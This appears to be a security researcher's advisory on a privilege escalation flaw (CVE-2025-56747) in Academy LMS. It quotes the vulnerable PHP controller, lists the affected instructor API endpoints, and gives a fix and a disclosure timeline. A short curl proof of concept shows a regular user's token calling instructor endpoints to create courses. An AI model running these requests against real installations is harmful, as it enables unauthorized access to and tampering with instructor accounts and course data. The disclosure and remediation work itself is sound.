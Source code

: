 ```yaml
---
title: "Privilege Escalation Vulnerability in Academy LMS Api_instructor Controller"
date: 2025-07-20
tags: ["security", "privilege-escalation", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
url: "/academy-lms-instructor-escalation-3n7b9f2w5k/"
_build:
  list: false
  render: true
  publishResources: true
sitemap:
  disable: true
---
```


## Overview

A significant privilege escalation vulnerability has been identified in Academy LMS versions up to and including 5.13, allowing regular users to access instructor-only functionality without proper authorization.

## Technical Details

**CVE ID:** [CVE-2025-56747](https://nvd.nist.gov/vuln/detail/CVE-2025-56747)
**CVSS Score:** 8.6 (High)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Privilege Escalation / Access Control Bypass  

### Affected Component
- File: `lms/application/controllers/Api_instructor.php`
- Lines: 20, 47, 91, 110, 124, 135, 148, 155, 168, 181, 195

### Vulnerability Description

The Api_instructor controller fails to properly validate user roles before granting access to instructor-specific functions. While the system checks for valid JWT tokens, it does not verify the `is_instructor=1` flag in the user's database record, allowing any authenticated user to access instructor functionality.

### Vulnerable Source Code

```php
// From lms/application/controllers/Api_instructor.php:20-35
public function token_data_get($auth_token)
{
  if (isset($auth_token)) {
    try {
      $jwtData = $this->tokenHandler->DecodeToken($auth_token);
      return json_encode($jwtData);
    } catch (Exception $e) {
      echo 'catch';
      http_response_code('401');
      echo json_encode(array("status" => false, "message" => $e->getMessage()));
      exit;
    }
  } else {
    echo json_encode(array("status" => false, "message" => "Invalid Token"));
  }
}

// From lms/application/controllers/Api_instructor.php:47-54  
public function change_password_post()
{
  $response = array();
  if (isset($_POST['auth_token']) && !empty($_POST['auth_token']) /* ... */) {
    $auth_token = $_POST['auth_token'];
    $logged_in_user_details = json_decode($this->token_data_get($auth_token), true);
    if ($logged_in_user_details['user_id'] > 0) {
      // Missing: Check if user has is_instructor=1 flag
      $response = $this->api_instructor_model->change_password_post($logged_in_user_details['user_id']);
    }
  }
}
```

## Impact

A regular authenticated user can:
1. Create unlimited courses without instructor privileges
2. Modify existing course content
3. Access sensitive instructor data and analytics
4. Change instructor passwords and profile information
5. Manipulate course pricing and availability
6. Bypass the platform's business model entirely

## Affected Endpoints

The following API endpoints are vulnerable to privilege escalation:

```
GET  /lms/api_instructor/userdata
POST /lms/api_instructor/update_userdata
POST /lms/api_instructor/add_course
POST /lms/api_instructor/update_course
GET  /lms/api_instructor/courses
GET  /lms/api_instructor/token_data
POST /lms/api_instructor/change_password
POST /lms/api_instructor/change_profile_photo
GET  /lms/api_instructor/add_course_form
GET  /lms/api_instructor/edit_course_form
GET  /lms/api_instructor/update_course_status
```

## Proof of Concept

```bash
# 1. Login as regular user
curl -X POST "https://target.com/lms/api/login" \
  -d "email=regularuser@example.com&password=userpass"

# 2. Extract JWT token from response
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# 3. Access instructor functionality (should fail but doesn't)
curl -X GET "https://target.com/lms/api_instructor/userdata?auth_token=${JWT_TOKEN}"

# 4. Create unauthorized course
curl -X POST "https://target.com/lms/api_instructor/add_course" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "auth_token=${JWT_TOKEN}&title=Unauthorized Course&description=Created by regular user"
```

## Root Cause Analysis

The vulnerability exists because the Api_instructor controller only performs the following check:

```php
// Insufficient validation - only checks JWT validity
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}
// Missing: Check if user has is_instructor=1 flag
```

The correct implementation should include:

```php
// Proper validation
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}

$user_data = $this->jwt_model->get_user_data_from_token();
if ($user_data['is_instructor'] != 1) {
    // Reject - user is not an instructor
}
```

## Mitigation

### Immediate Fix
Add proper instructor role validation to all methods in the Api_instructor controller:

```php
public function __construct() {
    parent::__construct();
    
    // Validate JWT token
    if (!$this->jwt_model->validate_jwt_token()) {
        http_response_code(401);
        echo json_encode(['error' => 'Unauthorized']);
        exit;
    }
    
    // Validate instructor role
    $user_data = $this->jwt_model->get_user_data_from_token();
    if (!isset($user_data['is_instructor']) || $user_data['is_instructor'] != 1) {
        http_response_code(403);
        echo json_encode(['error' => 'Insufficient privileges']);
        exit;
    }
}
```

### Best Practices
1. Implement role-based access control consistently
2. Use middleware for authorization checks
3. Validate user permissions at the database level
4. Implement proper error handling for authorization failures
5. Add audit logging for privilege escalation attempts

## Business Impact

This vulnerability can result in:
- Financial losses due to unauthorized course creation
- Compromise of the platform's business model
- Data exposure of instructor analytics and earnings
- Reputation damage and loss of user trust

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [OWASP Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
- [Academy LMS Documentation](https://codecanyon.net/item/academy-learning-management-system/22703468)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*
